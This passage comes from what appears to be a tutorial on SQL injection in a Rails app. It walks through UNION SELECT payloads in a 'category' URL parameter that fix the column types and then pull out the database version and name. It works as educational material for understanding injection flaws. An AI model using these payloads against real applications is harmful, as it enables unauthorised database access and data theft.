 Now the application should work fine, but it crashed but why?
We selected the correct number of columns, but we didn’t select the correct column types we selected nulls, which should be fine if all the current query selects from a table that allows nulls in all the columns

If you are familiar with rails, it creates the first column always as an ID integer auto_increment column so let's try to replace the first null with any integer for example 1.
`https://localhost:3000/posts?category=news’) union select 1,null,null,null,null,null--`

And it works now :D there’s a returned new record but you can’t see it because it’s nulled.

!["select nulls"](/assets/images/rails-sqli/image5.png "select nulls")

Let’s select a string to see the returned new selection for example.

`https://localhost:3000/posts?category=news’) union select 1,’HACKED!!’,null,null,null,null--`

And maybe we can select the database version and name.

`https://localhost:3000/posts?category=news’) union select 1,’HACKED!!’,version(),current_database(),null,null--`

!["select database version"](/assets/images/rails-sqli/image6.png "select database version")
